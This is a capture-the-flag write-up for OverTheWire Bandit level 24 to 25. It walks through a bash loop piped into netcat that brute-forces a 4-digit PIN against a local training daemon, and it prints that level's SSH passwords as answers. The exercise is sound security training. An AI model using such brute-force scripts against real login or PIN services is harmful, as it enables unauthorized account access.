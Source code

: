 # Bandit Level 24 -> Level 25 #

https://overthewire.org/wargames/bandit/bandit25.html

## SSH Access Details ##
**Username:**  bandit24

**Password:**  VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
#

## Level Goal : ##
>A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
>You do not need to create new connections each time

#  
## PROCEDURE : ##

In this task we will perform a very basic form of a *brute-force* attack.  This is an attempt at cracking a password or pin by trying all possible different combinations.  So for example if we need to crack a two-digit code we can try all combinations from `00`, `01`, `02`, all the way up to `99` until we find the right one.  Similarly for a two-character code we can try `aa`, `ab`, `ac`, etc up to `zz`.

Let's start off this task by opening a connection on `localhost` to port `30002` using `nc` and seeing exactly what the service is expecting to receive:

```console
bandit24@bandit:/tmp/myscript$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 1111
Wrong! Please enter the correct pincode. Try again.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 2222
Wrong! Please enter the correct pincode. Try again.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 3333
Wrong! Please enter the correct pincode. Try again.
```

Now that we know exactly the format the service is expecting, we can either spend hours and hours typing in different pin codes until we find the right one, or else we can write a simple script to make our lives that much easier.

Let's start by creating a directory in `/tmp/` and creating a file called `myscript.sh`, which we can open with `nano` for editing.

```console
bandit24@bandit:/tmp/myscript$ mkdir /tmp/scriptdir
bandit24@bandit:/tmp/myscript$ cd /tmp/scriptdir
bandit24@bandit:/tmp/scriptdir$ touch myscript.sh
bandit24@bandit:/tmp/scriptdir$ nano myscript.sh
```

For the time being let's just try a quick proof-of-concept.  The following code should generate 100 different four-digit PIN codes from 0000 to 0099:

```bash
#!/bin/bash

for i in {0000..0099};
do
  echo $i
done
```

After saving we need to give the script executable permessions:

```console
bandit24@bandit:/tmp/scriptdir$ chmod 777 myscript.sh
```

..and we can now run the script to see what happens:
```console
bandit24@bandit:/tmp/scriptdir$ ./myscript.sh
0000
0001
0002
0003
0004
0005
0006
0007
0008
0009
0010
0011
0012
...
```

OK - that looks great.  We have a qway of very quickly and easily generating all the possible 4-digit PIN combinations.  We just need to edit the range in the for loop to go from `0000` to `9999` and add the current user password before passing on everything to the `nc` connection.

```bash
#!/bin/bash
for i in {0000..9999};
do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar " $i;
done | nc localhost 30002
```
Here is a line-by-line explanation of this script:

- `#!/bin/bash`: declares this file as a bash script
- `for i in {0000..9999};`: starts a for loop that starts 0000 and ends at 9999 incrementing the numbers by one for each execution of the loop.  The value of the current iteration (i.e. `0000`, `0001`, `0002`, etc...) is stored in the variable `$i`
-   `echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar " $i;`: Output the current user password, followed by a space and the generated PIN
- `done | nc localhost 30002`: Pass the whole string to a `nc` connection on localhost port no. `30002`
  

Now if we try running our script again, we can see several failed attempts in rapid succession, until finally we have a succesful match 😃 - so satisfying!

```
bandit24@bandit:/tmp/scriptdir$ ./myscript.sh
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
...
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```

